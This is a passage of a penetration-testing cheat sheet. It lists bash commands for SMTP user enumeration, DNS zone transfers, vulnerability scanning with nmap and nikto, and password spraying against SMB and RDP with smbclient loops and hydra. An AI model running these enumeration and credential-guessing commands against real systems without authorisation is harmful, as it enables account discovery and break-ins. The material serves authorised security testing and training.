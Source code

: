 ```bash
# SMTP version and banner
nc -nv 192.168.1.1 25

# Enumerate users with VRFY
for user in $(cat users.txt); do echo VRFY $user | nc -nv -w 1 192.168.1.1 25 2>/dev/null | grep ^"250"; done

# Using smtp-user-enum
smtp-user-enum -M VRFY -U users.txt -t 192.168.1.1
```

## DNS Enumeration (Active)

```bash
# Zone transfer attempt
dig axfr @ns1.example.com example.com

# Using dnsrecon
dnsrecon -d example.com -t axfr

# Using fierce
fierce --domain example.com
```

## Vulnerability Scanning

### Basic Vulnerability Scanning
```bash
# Nmap NSE vulnerability scripts
nmap --script vuln -p- -oA nmap_vuln_scan 192.168.1.1

# Nikto web scanner
nikto -h http://example.com -o nikto_scan.txt
```

### Automated Scanners
```bash
# OpenVAS/GVM
# Use the web interface at https://127.0.0.1:9392

# Nessus
# Commercial vulnerability scanner with web interface
```

## Password Spraying

```bash
# SMB password spray
for user in $(cat users.txt); do 
    for pass in $(cat passwords.txt); do 
        echo "$user:$pass" | smbclient -L //192.168.1.1 -U $user%$pass 2>&1 | grep -v "NT_STATUS_LOGON_FAILURE" && echo "[+] Found credentials: $user:$pass"; 
    done; 
done

# RDP password spray
hydra -L users.txt -P passwords.txt rdp://192.168.1.1
```
